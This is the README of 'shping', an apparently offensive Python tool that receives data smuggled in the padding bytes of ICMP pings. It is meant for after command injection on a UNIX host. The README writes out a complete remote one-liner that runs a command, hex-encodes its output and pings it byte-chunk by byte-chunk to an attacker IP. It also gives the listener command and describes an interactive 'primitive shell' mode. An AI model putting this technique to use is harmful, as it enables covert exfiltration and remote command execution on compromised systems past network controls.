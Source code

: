 # shping

Got command injection on a UNIX system but the only thing you can do is ping yourself?

Well don't despair. With this little tool you can receive the output of your commands, as well as any other data, inserted in the ping's padding space. From its manual:

```
-p pattern
	You may specify up to 16 “pad” bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, -p ff will cause the sent packet to be filled with all ones.
```

You can even use it as a primitive shell, after setting it up properly.

Does not work with windows ping or any other version that doesn't have that option.

## usage

```
↬  python3 shping.py -h
usage: shping.py [-h] [-o outputFile] [-i] targetIP encapChr

Read data sent as padding from unix ping tool through the -p option. Can be
used as just a data receiver or as a primitive shell after implementing the
sendCommand function

positional arguments:
 targetIP              Target IP address
 encapChr              Character to use for encapsulating data. Must be the
					   same character used on the other end

optional arguments:
 -h, --help            show this help message and exit
 -o outputFile, --outfile outputFile
					   Set this if you want to save all the output to a file
 -i, --interactive     Interactive shell mode

```

Note that the data you want to receive must be sent to ping as hex-encoded. This varies based on the tools you have at your disposal, for example you can use xxd or hexdump (see below).

Also, the data you want to receive must be enclosed by a string of 16 identical characters (encapChr parameter). That's for two reasons:

1. To ensure the data is always 16 bytes long. In reality, the padding space is larger, but ping only accepts 16 bytes then repeats part of it, and if you feed it less it will reorder the bytes in a confusing way.
2. To grab the offset where our data starts in the icmp packet.

So on the remote machine you'll want to execute something like this:

```
cont="AAAAAAAAAAAAAAAA""$(ls -l /)""AAAAAAAAAAAAAAAA"; echo -n "$cont" | hexdump -v -e '16/1 "%02x" "\n"' | while read line; do ping -c 1 -p $line 198.51.100.1; done
```

where `198.51.100.1` is your ip (or with `xxd -c 16 -ps` in place of hexdump...), while on your local machine you'll run shping like:
```
python3 shping.py 198.51.100.2 A
```
where `198.51.100.2` is the ip of the remote machine.

## interactive mode

You can directly send and receive commands through shping by implementing the `sendCommand` function to basically do the same thing you'd manually do in the first step above (eg. http get/post). Then just launch shping as before but with the `-i` option and type your commands.

## notes

- only works on ipv4
- no ping -p option = no shping (<- windows)
- there are far better tools to use if you can do more stuff on the remote machine. this is just for the situations where you're strictly limited to basic commands and can't upload/download files to/on the target

